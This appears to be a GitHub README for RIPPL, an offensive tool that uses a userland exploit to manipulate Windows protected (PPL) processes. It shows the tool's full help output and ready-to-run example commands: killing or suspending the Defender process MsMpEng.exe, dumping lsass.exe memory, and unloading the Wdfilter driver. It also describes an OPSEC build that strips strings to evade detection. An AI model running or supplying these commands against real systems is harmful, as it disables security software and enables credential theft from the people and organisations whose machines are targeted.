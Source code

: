 # RIPPL
### Manipulating PPL protected processes without using a driver

![defender funny](./defenderfunny.gif)

This tool implements a __userland__ exploit to manipulate Windows PPL protected processes. The technique was initially discussed by James Forshaw (a.k.a. [@tiraniddo](https://twitter.com/tiraniddo)) and Clément Labro (a.k.a. [@itm4n](https://twitter.com/itm4n)) in the following blogposts. 

- __Blog post from James Forshaw__: [Windows Exploitation Tricks](https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html)
- __Blog post from Clément Labro part #1__: [Do You Really Know About LSA Protection (RunAsPPL)?](https://itm4n.github.io/lsass-runasppl/)
- __Blog post from Clément Labro part #2__: [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/)


## Usage

### Warning: the safe version of the binary __NEVER__ outputs anything, as all the strings and print function are stripped away using conditional compilation macros.
Simply run the executable without any argument and you will get a detailed help/usage (only valid for binaries compiled without defining the `OPSEC` macro)

```console
c:\Temp>.\rippl.exe
  _____  _____ _____  _____  _
 |  __ \|_   _|  __ \|  __ \| |
 | |__) | | | | |__) | |__) | |      version 0.1
 |  _  /  | | |  ___/|  ___/| |      by @last0x00
 | | \ \ _| |_| |    | |    | |____  forked by itm4n's PPLDump
 |_|  \_\_____|_|    |_|    |______|

Description:
  Manipulate Protected Process Light (PPL) processes with a *userland* exploit

Usage:
  rippl.exe (-D|-K|-S|-R|-L|-X|-W|-Z|-T|-U) [-v] [-d] [-f] (PROC_NAME|PID) [DUMP_FILE|DRIVER_NAME]
  () -> mandatory arguments
  [] -> optional arguments

Operation modes (choose ONLY one):
  -D -> Dump the given process
  -K -> Kill the given process
  -S -> Suspend the given process
  -R -> Resume the previously suspended process
  -L -> Leak a PROCESS_ALL_ACCESS handle to the given process (not yet implemented)
  -X -> Kill the given process by assigning it to a job object and terminating the object
  -W -> Freeze the process by assigning it to a job object and severely constraining its CPU resources
  -Z -> Kill the given process by injecting a thread into it which calls exit(0)
  -T -> Sandbox the process by disabling all of its token's privileges and lowering integrity to untrusted
  -U -> Unload the provided driver

Arguments:
  PROC_NAME   -> The name of the process to interact with
  PID         -> The ID of the process to interact with
  DUMP_FILE   -> The path of the output dump file - valid ONLY with the -D option
  DRIVER_NAME -> The name of the driver to unload - valid ONLY with the -U option

Options:
  -d -> (Debug) Enable debug mode
  -f -> (Force) Bypass DefineDosDevice error check

Examples:
  rippl.exe -K MsMpEng.exe
  rippl.exe -S MsMpEng.exe
  rippl.exe -R MsMpEng.exe
  rippl.exe -D -f lsass.exe lsass.dmp
  rippl.exe -D -d -f 720 out.dmp
  rippl.exe -U Wdfilter
```
